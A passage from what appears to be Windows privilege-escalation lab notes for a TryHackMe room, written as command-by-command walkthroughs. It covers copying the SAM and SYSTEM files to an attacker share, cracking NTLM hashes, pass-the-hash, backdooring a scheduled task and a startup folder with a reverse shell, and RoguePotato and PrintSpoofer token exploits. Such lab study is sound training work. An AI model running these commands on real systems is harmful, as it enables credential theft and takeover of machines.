     > ```ruby
     > C:\PrivEsc\savecred.bat script
     > ```
     > to refresh the saved credentials.
     
     > ## ``savecred.bat`` → A script on the lap that forces the system to store the credential (usually owned by the admin).
     > Objective: Make sure that the credential is registered so that we can exploit it.
     
          
     </details>
     
     
     ## 2. run payload using saved credential
     
     ```ruby
     runas /savecred /user:admin C:\PrivEsc\reverse.exe
     ```
     
     - **`runas`** : Tool to run programs as different user
     - **`/savecred`** : It means use the credential stored in the system instead of asking you to enter the password.
     - **`/user:admin`** : Specify that you want to run the program as a user named admin.
     - **`C:\PrivEsc\reverse.exe`** : This is your payload (reverse shell).
     
     
     > ---
     > ### 📌 _Goal → Run reverse.exe with admin privileges without entering the password yourself → take a shell with higher privileges._
     > ---
     
     
     ## 3. open listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     
     <img width="1265" height="315" alt="image" src="https://github.com/user-attachments/assets/f1595237-ce9c-4b71-baa1-383a14ee2106" />
     
     



  </details>









- <details>
     <summary>Security Account Manager (SAM)</summary>

     > ``The idea of ​​exploitation``
     > Windows stores user password hashes in a file called ``SAM`` (Security Account Manager).
     > But the SAM is encrypted, and the key to decrypt it is stored in the ``SYSTEM`` file.
     
     
     > ---
     > ### 📌 _The idea → If you find a backup copy of these files (such as ``C:\Windows\Repair\``), you can copy them and break the passwords._
     > ---
     
     
     ## 1. Transfer SAM and SYSTEM files to Kali
     
     ```ruby
     copy C:\Windows\Repair\SAM \\10.8.47.102\kali\
     copy C:\Windows\Repair\SYSTEM \\10.8.47.102\kali\
     ```
     
     <img width="1247" height="371" alt="image" src="https://github.com/user-attachments/assets/9312c3bf-1ef6-413d-94ba-b0a3dc5dda61" />
     
     
     
     
     > ---
     > ### 📌 _Goal → We take the hashes files and bring them to us so that we can work on them at our convenience._
     > ---
     
     
     ## 2. Download ``creddump7`` Tool
     
     
     ```ruby
     git clone https://github.com/Tib3rius/creddump7
     
     sudo mv creddump7 /opt/
     sudo ln -s /opt/creddump7/pwdump.py /usr/local/bin/pwdump
     ```
     
     > Install the encryption library
     
     ```python
     pip3 install pycrypto
     ```
     
     - **`pip3`** : Python3 package manager.
     - **`install pycrypto`** : We install the `PyCrypto library`so that the tool can extract hashes form files.
     
     
     ## 3. Extracting hashes from files
     
     
     ```ruby
     pwdump SYSTEM SAM
     ```
     
     <img width="883" height="224" alt="image" src="https://github.com/user-attachments/assets/d6c3d6c5-1652-4ed7-b50a-a351130eee05" />
     
     ```ruby
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
     user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
     admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
     ```
     
     
     >  ```
     >  Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
     >  ```
     
     - **`Administrator`** : username
     - **`500`** : The user's RID (Relative Identifier). 500 usually remains the primary Administrator.
     - **`aad3b435b51404eeaad3b435b51404ee`** : LM hash (if not used, this is the default placeholder).
     - **`fc525c9683e8fe067095ba2ddc971889`** : NT hash (which we can use to crack the password or pass-the-hash).
     - **`:::`** : Additional fields are not important to us now.
     
     
     
     ## 4. Crack the hash using Hashcat
     
     
     ```ruby
     hashcat -m 1000 -a 0 fc525c9683e8fe067095ba2ddc971889 /usr/share/wordlists/rockyou.txt
     ```
     
     - **`hashcat`** : A powerful tool for cracking passwords.
     - **`-m 1000`** : It means the hash is of type NTLM.
     
     <img width="672" height="166" alt="image" src="https://github.com/user-attachments/assets/05e7ca96-024b-4d9d-91c0-3010dcc1bd54" />
     
     
     
     
     ## 5. Exploiting the password after it is broken
     
     
     ```ruby
     winexe -U 'admin%<password>' //10.10.10.10 cmd.exe
     
     Or
     
     rdesktop -u admin -p <password> 10.10.10.10
     ```
     
     
     
     <img width="681" height="378" alt="image" src="https://github.com/user-attachments/assets/b422fc9e-d7f2-4542-bc24-59d137851956" />
     
     
     


  </details>









- <details>
     <summary> Passing the Hash</summary>
     
     > ---
     > ### 📌 _The idea → Usually in attacks on Windows, when you have a hash instead of cracking the password, you can use a technique called Pass-the-Hash (PTH).
     > Idea: The hash is used directly for authentication instead of the actual password.
     
     > Why is this useful?
     
     > - Save time (you don't need to break the password).
     
     > - Some systems may prevent brute-force, but not the use of hash for authentication._
     > ---
     
     
     ```ruby
     pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.148.63 cmd.exe
     ```
     
     or 
     
     ```ruby
     python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da admin@10.10.148.63
     ```
     
     
     <img width="1090" height="261" alt="image" src="https://github.com/user-attachments/assets/d017160b-c081-4946-a00b-5ac68d94c122" />
     
     
     <img width="1099" height="245" alt="image" src="https://github.com/user-attachments/assets/004a30ec-a449-4e55-b8a4-b7bb52ccbe7d" />
     
     
     > `smbexec.py` uses the creation service on Windows to run the shell.
     
     > Any service that runs on Windows usually runs under `SYSTEM` privileges.
     
     > This means that even if the user you specified is admin, the `shell` that will open will be `SYSTEM` because it is the service on Windows that is running.
     
     > This is a great advantage because it gives you the highest powers over the system.
     
     
     
     | tool                  | Privileges         | method                                             |
     | --------------------- | ------------------ | -------------------------------------------------- |
     | `impacket smbexec.py` | SYSTEM             | You create a service and run a shell inside it     |
     | `pth-winexe`          | Admin              | Regular logon and shell execution in user session  |
     
     
     


  </details>








     
</details>






















<details>
  <summary>Scheduled Tasks</summary>

- <details>
     <summary>Tip</summary>
     
     > ### here we are in room from THM and we know that the Scheduled task is **`C:\DevTools\CleanUp.ps1`**
     > but in real world how to know ??
     
     
     > - ### **`To view all Scheduled Tasks in system`**
     
     ## **`CMD`**
     
     ```ruby
     schtasks /query /fo LIST /v
     ```
     
     
     ## **`powershell`**
     
     ```ruby
     Get-ScheduledTask | Format-List *
     ```
     
     ## **`GUI`**
     
     ```ruby
     taskschd.msc
     ```
     
     -----
     
     > - ### **`To view all Scheduled Tasks that work as SYSTEM`**
     
     ## **`powershell`**
     
     ```ruby
     Get-ScheduledTask | Where-Object {$_.Principal.UserId -eq "SYSTEM"} | Format-List *
     ```
     
     ---
     
     > ## Where tasks files are stored in?
     
     ```ruby
     C:\Windows\System32\Tasks
     ```
     
     
     

  </details>



## 1. View the content of the PowerShell script

```ruby
type C:\DevTools\CleanUp.ps1
```

- **`type`** : A Windows command that displays the contents of any text file.
- **`C:\DevTools\CleanUp.ps1`** : This is a PowerShell Script file.

> Purpose: To understand what the script is doing (it may be deleting logs or cleaning folders).


<img width="679" height="143" alt="image" src="https://github.com/user-attachments/assets/b94aed7f-ff74-4470-947c-f485eadd8d7b" />



> ---
> ### 📌 _NOte → "The script seems to be running as SYSTEM every minute"_
> ---


## 2. Check file permissions


```ruby
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

<img width="661" height="322" alt="image" src="https://github.com/user-attachments/assets/9e3654bc-90c7-49d9-97ea-e27c22e1125f" />



> ---
> ### 📌 _Goal → Make sure that we can write (Write/Modify) to this script._
> ---

## 3. Adding a malicious line to the script

```ruby
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```


> ---
> ### 📌 _Goal → o make the script run every time your program, reverse.exe, runs with it._
> ---

## 4. Open Listener on kali


```ruby
nc -nvlp 4444
```


<img width="1394" height="262" alt="image" src="https://github.com/user-attachments/assets/6061925d-c493-49c9-87e9-9d460e8f70e5" />





     
</details>













<details>
  <summary>Insecure GUI Apps</summary>

> ---
> ### After you enter RDP, you will find a shortcut named “AdminPaint” on your desktop.

> When you step on it, it launches the Paint program (mspaint.exe), but it is not normal → it starts using Administrator's Privileges.

> This means that you have a GUI (Paint) program running with higher privileges than you.
> 
> ---


## 1. Check privileges “AdminPaint” work with it 

```ruby
tasklist /V | findstr mspaint.exe
```

- **`tasklist /v`** : It displays all running processes in detail (PID, program name, which user runs it).
- **`| findstr mspaint.exe`** : Filter the results to only answer the Paint line.



<img width="952" height="183" alt="image" src="https://github.com/user-attachments/assets/1f204b37-f268-4150-a7af-762d781a5ebf" />


## 2. Exploiting the Open Dialog

- Open Paint → from the menu press File → Open.

- You will receive a Dialog Box for opening files.

- Now, instead of writing an image name, you will write in the navigation bar:


```ruby
file://c:/windows/system32/cmd.exe
```

<img width="435" height="131" alt="image" src="https://github.com/user-attachments/assets/98034852-152b-4282-aa77-cffec62130bc" />

- click ``enter`` not **`open`** button

<img width="1023" height="601" alt="image" src="https://github.com/user-attachments/assets/1edb72c0-99e9-4b39-aa86-cfa71ebeff91" />

     
</details>












<details>
  <summary>Startup Apps</summary>



## 1. Check Startup directory permissions

```ruby
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

- **`-d`** : It means “Directory permissions” shows you who can read/write/delete in the folder.



<img width="957" height="253" alt="image" src="https://github.com/user-attachments/assets/9db41fcc-2890-467c-80a8-94c3765d1967" />



> ---
> ### 📌 _Goal → If you find that the Users group has Write permission here, then any normal user can upload a file/Shortcut that will be executed automatically with any user (even the admin) running → Privilege Escalation._
> ---


## 2. Run vbs Script

```ruby
cscript C:\PrivEsc\CreateShortcut.vbs
```

- **`cscript`** : This is the command-line host for running VBScript (.vbs) files.
- **`C:\PrivEsc\CreateShortcut.vbs`** : the script that we want to run it


> this file when it run it make shortcut to **`C:\PrivEsc\reverse.exe`** and put it on **`startup`** directory


<img width="527" height="108" alt="image" src="https://github.com/user-attachments/assets/57ce227b-f089-452b-b60f-292215f39d91" />


> ---
> ### 📌 _Goal → Instead of writing a shortcut manually, the script creates it automatically and places it in the correct place._
> ---



## 3. simulate an admin logon using RDP

```ruby
rdesktop -u admin 10.10.122.63
```

> here you login as admin just to simulate the attack, in real world the user who login shortcut will work you will take shell with it's privileges


<img width="1525" height="796" alt="image" src="https://github.com/user-attachments/assets/0269105a-d525-451e-be67-f1c2d4fd4b1b" />


## 4. open Listener on kali


```ruby
nc -lnvp 4444
```


<img width="1654" height="761" alt="image" src="https://github.com/user-attachments/assets/4f61d07d-c8d5-42b0-8343-8be29aef3acc" />





- <details>
     <summary>Notes</summary>

     > ## content of vbs file
     
     ```ruby
     Set oWS = WScript.CreateObject("WScript.Shell")
     sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\ReverseShell.lnk"
     Set oLink = oWS.CreateShortcut(sLinkFile)
     oLink.TargetPath = "C:\PrivEsc\reverse.exe"
     oLink.Save
     ```
     
     - **`sLinkFile`** : The location of the shortcut file that will be used (.lnk).
     - **`oLink.TargetPath`** : Here is the PrivEsc at `C:\PrivEsc\reverse.exe`.
     - **`oLink.Save`** : save shortcut
     
     ---
     
     > ## how to know what this shortcut refer to
     
     `right Click` → `properties` → `Shortcut`
     
     - you will see **`Target`** content is `C:\PrivEsc\reverse.exe` 
     
     **`or`**
     
     ```ruby
     (Get-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\ReverseShell.lnk").TargetPath
     ```
     
     ---
     
     > ## how to make shortcut manually
     
     **`Powershell`**
     
     ```ruby
     $WshShell = New-Object -ComObject WScript.Shell
     $Shortcut = $WshShell.CreateShortcut("C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\malicious.lnk")
     $Shortcut.TargetPath = "C:\PrivEsc\reverse.exe"
     $Shortcut.Save()
     ```
     
     `Or`
     
     #### Open `Explorer` write
     
     ```ruby
     shell:startup
     ```
     
     `then`
     
     **`Right Clicl`** → **`New`** → **`Shortcut`**
     
     
     <img width="516" height="101" alt="image" src="https://github.com/user-attachments/assets/b62611a6-1cd4-4624-841c-b3c5e2ae9082" />
     




  </details>






     
</details>
























<details>
  <summary>Token Impersonation</summary>





- <details>
      <summary>Rogue Potato</summary>

     
     
     > ## - In Windows, every process runs under a Security Token that determines its privileges.
     >    - Some services have high permissions, such as LOCAL SERVICE or SYSTEM.
     > ## - If you can "borrow" or "obtain" a token from a service that has high privileges, you can run your program with the same privileges.
     > ## - When you send ``reverse.exe`` to Windows, it is a simple program that attempts to make a reverse connection to the Kali machine.
     >    - If you run it as Admin, it will work with your current permissions. If you run it as a Local Service, it will run with less privileges.
     >>  ** `The goal: to gain an “entry point” into the system, regardless of the initial permissions.`**
     > ## **`PSExec`** is a tool from Sysinternals that allows you to run any program on any Windows machine, and even set the privileges of a specific user or service.
     > ## **`RoguePotato`** It is an Executable/Script that exploits a vulnerability in the Windows system.
     >> #### - **`Its function: Run any program on the device with SYSTEM privileges by exploiting Windows COM / Service Tokens.`**
     >>    -  In Windows, every service has a token that defines its permissions.
     >>    -  Some services have SYSTEM privileges.
     >>    -  RoguePotato exploits a weakness in permissions or COM objects that allows a normal process (such as a Local Service) to "borrow" the SYSTEM privileges service's Token.
     >>    -  After that, any program you run with this Token (such as reverse.exe) will run with SYSTEM privileges.
     
     
     ## 1. Run socat redirector on Kali
     
     ```ruby
     sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
     ```
     
     - **`socat`** : A program that allows us to create a redirect or proxy for communication between two sockets (TCP/UDP).
     - **`tcp-listen:135`** : Listen on port 135 in Kali.
        - `135` : is the RPC Endpoint Mapper port that Windows uses.
     - **`reuseaddr`** : It allows port reuse even if sessions are open.
     - **`fork`** : A fork is used for each new connection (meaning it can serve more than one connection).
     - **`tcp:MACHINE_IP:9999`** : Any connection that comes to Kali:135, send it to the Windows victim on port 9999.
     
     
     
     
     <details>
          <summary>why not netcat??</summary>
     
          
     ### When we use nc directly
          
     ```ruby
     nc -lnvp 9999
     ```
          
     - This is a normal listener on Kali that waits for any connection from Windows on port 9999.
     - Problem: In some scenarios, the exploit or reverse shell on Windows will not be able to connect directly to the listener, especially if:
       - The port that the original program is trying to open is not available (for example 135).
       - There is firewall or NAT blocking. 
          
     ---
          
     ### when we use socat redirector
          
     ```ruby
     sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
     ```
          
     - This does Port Forwarding / Redirector:
       - Any connection coming to Kali on port 135 will automatically switch to the listener on port 9999.
     - Advantages:
       - We can emulate or redirect any port required by exploit.
       - It is useful if the payload on Windows is designed to connect to a specific port (here 135).
       - fork allows socat to accept more than one connection at the same time.  
          
     ---
          
     ### Practical difference
          
     | Property                                          | nc -lnvp 9999   | socat tcp-listen:135 → 9999    |
     | ------------------------------------------------- | --------------- | ------------------------------ |
     | Type of use                                       | Listener normal | Port forwarding + listener     |
     | Number of connections                             | One for each order       | multi(`fork`)                  |
     | Adjustable port payload                           | less            |Any port you want can be redirected |
     | Suitable for exploits that expect a specific port | less           |             excellent                    |
              
     
     
     
          
     </details>
     
     
     
     > ---
     > ### 📌 _Goal → Any incoming connection on Kali from port 135 will automatically be routed to the listener on port 9999 to facilitate reception of the reverse shell from Windows._
     > ---
     
     
     ## 2. Run PSExec64.exe

     Login as **`admin`**
     
     ```ruby
     C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
     ```
     
     - **`C:\PrivEsc\PSExec64.exe`** : A tool from Sysinternals that we use to run commands as another user.
     - **`-i`** : `interactive session` (links to the current desktop session).
     - **`-u "nt authority\local service"`** : We operate as a Local Service account.
     - **`C:\PrivEsc\reverse.exe`** : reverse shell file
     
     
     > ---
     > ### 📌 _Goal → take a new shell, but as a Local Service (not Administrator)._
     > ---
     
     
     ## 3. run RoguePotato
     
     
     ```ruby
     C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
     ```
     
     - **`RoguePotato`** : It is an Executable/Script that exploits a vulnerability in the Windows system.
     - **`-r 10.10.10.10`** : kali Ip that socat run on it
     - **`-e "C:\PrivEsc\reverse.exe"`** : file we want to run it as `SYSTEM`
     - **`-l 9999`** : port that RoguePotato will use it to internal redirect
     
     
     > ---
     > ### 📌 _Goal → RoguePotato exploits DCOM/RPC to request a token from the SYSTEM account and then uses it to run your program as SYSTEM._
     > ---



     > # **`Name one user privilege that allows this exploit to work.`**
     
     ```perl
     SeImpersonatePrivilege
     ```
     
     - **`This is the permission that allows the process to “borrow” the permissions of any token present on the system, and this is the basis that RoguePotato exploits.`**
     
     
     > # **`Name the other user privilege that allows this exploit to work.`**
     
     ```perl
     SeAssignPrimaryTokenPrivilege
     ```
     
     - **`This is the permission that allows a new token to be assigned to any process, and completes the process that RoguePotato uses to access the system.`**
          



  </details>


- <details>
      <summary>PrintSpoofer</summary>

     > There are 3 important levels of permissions in Windows:
     
     | **Account** | **Level** | **Description** |
     | ----------------------- | ----------------- | -------------------------------------- |
     | **Local Service** | Low privilege | Weak system service, very limited permissions
     | **Administrator** | High privilege | It can do almost everything, but not SYSTEM |
     | **NT AUTHORITY\SYSTEM** | Highest privilege | The most powerful account on Windows |
     
     > Here we will start from the Local Service account and go to SYSTEM.

     ## 1. Step 1 – Start a listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     ## 2. login as admin and open `cmd` as adminstrator and run this command:
     
     ```ruby
     C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
     ```
     
     - ``PSExec64.exe`` : tool to run a program with "Local Service" account privileges.
     - **`-i`** : interactive mode
     - **`-u "nt authority\local service"`** : Run the program as Local Service user.
     
     
     
     <img width="1731" height="604" alt="image" src="https://github.com/user-attachments/assets/d54d52fc-3def-4f26-8509-a0a3a4d4daa1" />
     
     > ---
     > ### 📌 _Goal → On the Kali terminal, you will receive the first reverse shell with Local Service privileges._
     > ---
     
     
     
     ## 3. Start a listener on Kali
     
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     
     
     ## 4.  Step 3 – Exploit PrintSpoofer
     
     
     ```ruby
     C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
     ```
     
     - **`PrintSpoofer.exe`** : PrintSpoofer is an Exploit that exploits SeImpersonatePrivilege.
        - The Local Service usually has this privilege.
        - Result: We can circumvent Windows and upgrade to NT AUTHORITY\SYSTEM privileges.
     - **`-c "C:\PrivEsc\reverse.exe"`** : The command you want to run is as SYSTEM, and here we run reverse.exe.
     
     
     <img width="828" height="178" alt="image" src="https://github.com/user-attachments/assets/a39c6221-1434-498b-a65f-75a056c0b0df" />
     
     
     
     ## 5. recive the shell with **`authority\system`**
     
     <img width="932" height="334" alt="image" src="https://github.com/user-attachments/assets/e806caf2-744e-4bf6-b71a-70339f124343" />

  </details>





     
</details>

<details>
  <summary>Privilege Escalation Scripts</summary>


<details>
     <summary>winPEASany.exe</summary>


## 1. winPEASany.exe 

```ruby
winPEASany.exe
```

<img width="1235" height="384" alt="image" src="https://github.com/user-attachments/assets/ec8b4be1-dafe-4510-82f1-cd4835325a82" />

<img width="1207" height="592" alt="image" src="https://github.com/user-attachments/assets/dde4b41d-a269-486c-92a1-ecba7d073eee" />

<img width="1229" height="495" alt="image" src="https://github.com/user-attachments/assets/1271fc27-03bf-491b-a238-b2041a554a8f" />

<img width="1165" height="433" alt="image" src="https://github.com/user-attachments/assets/d5fd3329-f7f1-454a-82f2-211a16ad6383" />

<img width="1345" height="281" alt="image" src="https://github.com/user-attachments/assets/018ac017-00eb-471e-8fe7-dd90e93054da" />

<img width="1261" height="257" alt="image" src="https://github.com/user-attachments/assets/5d3af489-f7f1-46e0-b882-dc1ee0b2efdc" />


     
</details>


<details>
     <summary>Seatbelt.exe</summary>
</details>

<details>
     <summary>PowerUp.ps1</summary>
</details>

<details>
     <summary>SharpUp.exe</summary>
</details>


     
</details>





